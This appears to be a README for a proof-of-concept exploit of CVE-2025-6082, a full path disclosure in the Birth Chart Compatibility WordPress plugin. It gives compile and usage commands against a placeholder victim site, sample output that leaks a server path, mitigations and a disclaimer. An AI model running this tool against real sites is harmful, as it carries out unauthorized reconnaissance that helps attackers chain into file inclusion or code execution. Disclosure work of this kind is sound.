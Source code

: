 # CVE-2025-6082 Full Path Disclosure PoC

**Author**: Byte Reaper  
**Telegram**: [@ByteReaper0](https://t.me/ByteReaper0)  
**CVE**: CVE-2025-6082  
**Vulnerability**: Full Path Disclosure (CWE-200)  

## Description
This Proof‑of‑Concept exploits a Full Path Disclosure bug in the **Birth Chart Compatibility** WordPress plugin (versions ≤ 2.0). The POC sends an HTTP GET request to the plugin’s `index.php` endpoint, captures any PHP warning or fatal error, and parses out the server’s filesystem path (e.g. `/var/www/html/wp-content/plugins/...` or `C:\xampp\htdocs\...`).  
Revealing the full path aids an attacker in chaining further Local File Inclusion (LFI), Remote Code Execution (RCE), or other reconnaissance attacks.

## Requirements
- Linux
- `gcc` or compatible C compiler
- `libcurl` development headers
- `argparse.c` / `argparse.h` 

## Compilation

```
gcc -o fpd-poc exploit.c argparse.c  -lcurl
```
## Usage
./fpd-poc -u https://target.com [options]

Options:
# Flag  Description

**-u, --url <URL>   (Required) Base URL of the target WordPress site**

**-c, --cookies <FILE> Use cookies from FILE (optional)**

**-v, --verbose  Enable verbose curl output**

**-f, --loop <N> Repeat the request N times (e.g. -f 10)**

**-h, --help  Show this help message**

Example: 

# Single check
./fpd-poc -u https://victim.com

# Verbose mode with 5 repeated checks
./fpd-poc -u https://victim.com -v -f 5
Sample output:

[+] Request sent successfully

[+] Input Url      : https://victim.com

[+] Full Format Url: https://victim.com/wp-content/plugins/birth-chart-compatibility/index.php

[+] Http Code      : 200

====================================[Response]====================================

Warning: include(/var/www/html/wp-content/plugins/birth-chart-compatibility/missing.php): failed to open stream...

[+] Response Len   : 256

[+] Keyword found: Warning:

[+] Context: Warning: include(/var/www/html/wp-content/plugins/birth-chart-compatibility/missing.php

## Mitigation
Update the “Birth Chart Compatibility” plugin to a patched version (> 2.0) as soon as it is released.

Disable or remove the plugin if you do not use it.

Deny direct access to plugin PHP files (index.php) through your web server configuration (e.g. via .htaccess or Nginx rules).

Disclaimer
This code is provided for educational and testing purposes only. Unauthorized use against systems you do not own or have explicit permission to test may be illegal.

